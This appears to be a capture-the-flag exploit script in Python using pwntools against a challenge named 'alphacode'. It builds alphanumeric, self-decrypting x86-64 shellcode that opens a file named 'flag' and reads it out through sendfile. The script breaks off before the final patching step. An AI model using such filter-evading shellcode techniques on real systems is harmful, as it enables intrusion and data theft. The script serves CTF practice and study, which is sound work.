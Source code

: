 ```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
EXE = './alphacode'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1602)')
    else:
        sh = remote('node5.buuoj.cn', 27789)

    code = [
        # mov ecx, 0x20240026
        b"\x35\x41\x30\x65\x61", # xor eax, 0x61653041
        b"\x35\x67\x30\x41\x41", # xor eax, 0x41413067
        b"\x50", # push rax
        b"\x59", # pop rcx
        # xor decrypt <code 1>
        b"\x68\x71\x30\x4e\x30", # push 0x304e3071
        b"\x58", # pop rax
        b"\x31\x41\x34", # xor [rcx + 0x34], eax
        # xor decrypt <code 2>
        b"\x68\x30\x30\x30\x30", # push 0x30303030 <- padding 3 b'0'
        b"\x58", # pop rax
        b"\x30\x41\x41", # xor [rcx + 0x41], al
        # xor decrypt 2 layers on <code 3>
        b"\x6b\x41\x30\x4e", # imul eax, dword ptr [rcx + 0x30], 0x4e
        b"\x35\x30\x61\x41\x30", # xor eax, 0x30416130
        b"\x31\x41\x47", # xor [rcx + 0x47], eax

        # push "flag" on rsp >>>
        b"\x68\x66\x6c\x61\x67", # push 0x67616c66
        b"\x54", # push rsp
        # mov rax, SYS_open
        b"\x6a\x32", # push 0x32
        b"\x58", # pop rax
        b"\x34\x30", # xor al, 0x30 <code 1 @ \x30>
        # mov rdi, [rsp] (lea rdi, "flag") <<<
        b"\x5f", # pop rdi
        # fd = open("flag", 0, 0)
        b"\x0f\x05", # syscall

        # mov r10, 1
        b"\x6a\x31", # push 0x31
        b"\x58", # pop rax
        b"\x34\x30", # xor al, 0x30
        b"\x50", # push rax
        b"\x41\x5a", # pop r10
        # mov rdi, 1
        b"\x50", # push rax
        b"\x5f", # pop rdi <code 2>
        # loop:
        # mov rax, SYS_sendfile
        b"\x6a\x49", # push 0x49
        b"\x58", # pop rax
        b"\x34\x61", # xor al, 0x61
        # sendfile(STDOUT_FILENO, fd, NULL, 1)
        b"\x0f\x05", # syscall <code 3>
        b"\xeb\xf5", # jmp loop (-9)
    ]
    # patch <code 1, 2, 3> to pass the check
```